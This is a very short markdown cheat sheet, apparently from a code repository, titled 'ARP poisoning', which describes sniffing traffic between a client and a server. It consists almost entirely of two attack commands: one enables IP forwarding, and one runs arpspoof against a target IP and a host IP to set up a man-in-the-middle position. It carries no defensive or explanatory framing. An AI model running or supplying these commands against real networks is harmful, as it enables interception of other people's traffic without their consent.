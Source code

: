 # ARP poisoning

Sniff traffic between a client and a server.

## Enable IP forwarding

`echo 1 > /proc/sys/net/ipv4/ip_forward`

## Start ARP spoofing

`arpspoof -i <DEVICE> -t <TARGET_IP> -r <HOST_IP>`